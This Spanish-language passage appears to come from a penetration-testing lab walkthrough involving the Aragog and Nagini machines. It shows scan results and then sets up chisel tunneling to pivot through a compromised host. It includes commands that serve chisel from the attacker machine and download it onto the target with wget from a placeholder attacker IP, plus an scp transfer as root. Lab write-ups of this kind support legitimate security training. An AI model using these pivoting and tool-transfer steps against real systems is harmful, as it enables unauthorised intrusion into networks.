 Resultado:

```bash
[+] Host 10.10.0.1 - ACTIVO
[+] Host 10.10.0.128 - ACTIVO
[+] Host 10.10.0.129 - ACTIVO
```

Resultado:

```bash
[+] Host 10.10.0.128 -PORT 22 - ABIERTO
[+] Host 10.10.0.129 -PORT 80 - ABIERTO
[+] Host 10.10.0.129 -PORT 22 - ABIERTO
[+] Host 10.10.0.128 -PORT 80 - ABIERTO
```

Explicación: con estos scripts, vemos que tenemos comunicación con el host `10.10.0.129`

Acción: usamos `chisel` para hacer tunneling y abrir una ruta entre el host `nagini 10.10.0.129` y nuestro `Parrot 192.168.1.66` a través de `Aragog 192.168.1.82 - 10.10.0.128`

### Tunneling 

[Para descargar chisel](https://github.com/jpillora/chisel/releases/tag/v1.11.3) 
Descomprimir con `7z x <nombre_Archivo>` y dar permisos de ejecución `chmod +x <nombre_del_decomprimido>` si hace falta renombrar con `mv <nombre_descromprimido> <chisel>`

`./chisel`

```bash
 Usage: chisel [command] [--help]

  Version: 1.11.3 (go1.25.1)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

Acción: transferir *chisel* a la máquina objetivo *Aragog* desde máquina atacante

```bash
python3 -m http.server 80
```

Acción: desde *Aragog*

```bash
wget http://<IP_atacante>/chisel
```

**Alternativa:**

```bash
scp chisel root@192.168.1.82:/tmp/chisel
```
